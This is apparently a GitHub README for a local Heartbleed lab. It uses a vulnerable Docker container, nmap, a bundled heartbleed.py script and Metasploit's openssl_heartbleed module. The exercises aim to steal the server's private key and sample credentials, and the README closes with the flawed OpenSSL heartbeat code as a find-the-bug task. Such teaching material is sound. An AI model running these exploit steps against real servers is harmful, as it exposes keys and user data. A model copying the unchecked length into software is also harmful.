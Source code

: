 # Heartbleed Example

## Requirements and instalation

* Docker
* Metasploit
* Python 2
```shell
sudo apt-get update &&
sudo apt-get install -y python2-dev docker.io metasploit-framework curl
```
* Python 2 packages
```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output /tmp/get-pip.py &&
sudo python2 /tmp/get-pip.py &&
pip install --upgrade setuptools &&
pip install gmpy pyasn1
```
## Docker Setup

```shell
docker pull docker.io/andrewmichaelsmith/docker-heartbleed
```
## Clone Repository

```shell
git clone https://github.com/okrutnik420/heartbleed.git &&
cd heartbleed &&
chmod 755 *
```

## Run the container

On a terminal window, run the command:

```shell
sudo docker run -it -p 127.0.0.1:443:443 andrewmichaelsmith/docker-heartbleed bash
```

This command will execute bash in conatiner and map host adress 127.0.0.1:443 to local conatiner adress on port 443

Type exit to exit container


## Run the server
inside contrainer run"
```shell
apache2ctl -D FOREGROUND
```
You can access server via https://127.0.0.1
(unfortunetly this is default website for old version of apache2)

## Stimulate the server

Before exploiting, you must stimulate the server with potentially sensitive data
that can be harvested later by the exploit. The `stimulate_server.py` script
does that, sending random credentials to the server via HTTP POST requests. The
following is its usage and options:

```shell
./stimulate_server.py [-a server_address] [-t sleep]
```
## Excercise 1: Get to know server

#### Using nmap check if server is vulnerable
```shell
sudo nmap -p 443 --script ssl-heartbleed 127.0.0.1
```

#### If you wish to run another instance of bash inside container do:
```shell
sudo docker ps -a 
sudo docker exec -it <id> /bin/bash
```
#### View certificate
```hint
Inspect Dockerfile to check how server was set up
```
#### Check openssl version

## Excercise 2 Exploit using script

This repo includes heartbleed.py script (in python2)

```shell
./heartbleed.py -h
```

* using script try to extract some sensitive data
* set verbose option analize how script executes
* try to steal server private key and certificate

To populate server memory with keys run:
```shell
watch 'cat /etc/apache2/ssl/apache.crt ; cat /etc/apache2/ssl/apache.key'

```

## Excersice 3 Exploit using metaspoit

#### Start the Metasploit console
```shell
sudo msfconsole
```

#### Search Heartbleed module by using built in search feature in Metasploit framework
```shell
search heartbleed
```

#### Load the heartbleed by module
```shell
use auxiliary/scanner/ssl/openssl_heartbleed
```

#### After loading the auxiliary module, extract the info page to reveal the options to set the target
```shell
show info
```

#### This is a list of all auxiliary actions that the scanner/ssl/openssl_heartbleed module can do:
```shell
show actions
```

#### Here is a complete list of advanced options supported by the scanner/ssl/openssl_heartbleed auxiliary module:
```shell
show advanced
```

#### To view full list of possible evasion options supported by the scanner/ssl/openssl_heartbleed auxiliary module in order to evade defenses:
```shell
show evasion
```

#### Explore Options Set RHOST and Run
#### Extract Certificate and Private Key using metaspolit

## Excercise 4 some code snippet 

#### Inscect heartbeat request/response packet

**Format of the Heartbeat request/response packet**

```c
struct {
    HeartbeatMessageType type;  // 1 byte: request or the response
    uint16 payload_length;      // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
```

The first field (1 byte) of the packet is the type information, and the second field (2 bytes) is the payload length, followed by the actual payload and paddings. The size of the payload should be the same as the value in the payload length field, but in the attack scenario, payload length can be set to a different value. The following code snippet shows how the server copies the data from the request packet to the response packet.

#### Find faulty line in code bellow

**Process the Heartbeat request packet and generate the response packet**

```c
/* Allocate memory for the response, size is 1 byte
 * message type, plus 2 bytes payload length, plus
 * payload, plus padding
*/

unsigned int payload;
unsigned int padding = 16; /* Use minimum padding */

// Read from type field first
hbtype = *p++; /* After this instruction, the pointer
                * p will point to the payload_length field */

// Read from the payload_length field from the request packet
n2s(p, payload); /* Function n2s(p, payload) reads 16 bits
                  * from pointer p and store the value
                  * in the INT variable "payload". */

pl = p; // pl points to the beginning of the payload content

if (hbtype == TLS1_HB_REQUEST)
{
    unsigned char *buffer, *bp;
    int r;

    /* Allocate memory for the response, size is 1 byte
     * message type, plus 2 bytes payload length, plus
     * payload, plus padding
     */

    buffer = OPENSSL_malloc(1 + 2 + payload + padding);
    bp = buffer;

    // Enter response type, length and copy payload *bp++ = TLS1_HB_RESPONSE;
    s2n(payload, bp);

    // copy payload
    memcpy(bp, pl, payload);   /* pl is the pointer which
                                * points to the beginning
                                * of the payload content */
    bp += payload;

    // Random padding
    RAND_pseudo_bytes(bp, padding);

    // this function will copy the 3+payload+padding bytes
    // from the buffer and put them into the heartbeat response
    // packet to send back to the request client side.
    OPENSSL_free(buffer);
    r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);
}
```

